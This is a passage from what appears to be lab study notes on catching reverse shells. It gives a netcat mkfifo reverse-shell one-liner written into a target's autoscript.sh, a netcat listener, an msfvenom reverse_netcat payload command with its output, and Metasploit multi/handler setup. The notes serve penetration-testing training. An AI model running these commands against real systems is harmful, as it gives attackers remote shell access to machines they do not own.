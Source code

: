 So for example:

```commandline
echo "mkfifo /tmp/kdje; nc 10.8.208.30 8888 0</tmp/kdje | /bin/sh >/tmp/kdje 2>&1; rm /tmp/kdje" > /home/user4/Desktop/autoscript.sh
```

Then run a netcat listener on your host machine:

```commandline
nc -lvnp 8888
```


To create that file so that you can copy it over to the target machine, we could use `-o` argument. For example:

```commandline
┌──(itchy㉿scratchy)-[~/tools]
└─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.208.30 lport=8888 -o ncrevshell

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 89 bytes
Saved as: ncrevshell
```

### Metasploit multi/handler

Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:

1. Open Metasploit with `msfconsole`
2. Type use `multi/handler`, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the options command:

![alt text](images/metasploit-handler_01.png "Screenshot")

There are three options we need to set: `payload`, `LHOST` and `LPORT`. These are all identical to the options we set when generating  shellcode with `msfvenom` -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the `LHOST` must be specified here, as `metasploit` will not listen on all network interfaces like `netcat` or `socat` will; it must be told a specific address to listen with (when using TryHackMe, this will be your tun0 address). We set these options with the following commands:

- `set PAYLOAD <payload>`
- `set LHOST <listen-address>`
- `set LPORT <listen-port>`

- We should now be ready to start the listener!

Let's do this by using the `exploit -j` command. This tells Metasploit to launch the module, running as a job in the background.
